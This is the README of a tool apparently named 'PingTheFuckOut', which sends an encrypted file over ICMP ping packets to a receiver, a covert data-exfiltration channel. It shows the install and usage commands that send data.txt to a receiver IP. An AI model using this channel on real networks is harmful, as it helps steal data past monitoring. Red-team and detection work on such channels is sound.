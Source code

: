 # PingTheFuckOut
Encrypted ping exfiltration tools

## Install
As usual:
`python3 -m pip install -r requirements.txt`

## Example
On the receiver:
`./receiver.py -p my_password -s 64 -o data_out.txt`

On the sender:
`./receiver.py -p my_password -s 64 -i data.txt [receiver_ip]`

## Notes
Please note that this shouldn't be tested on localhost only, as sniffing on a loopback interface might get packets twice.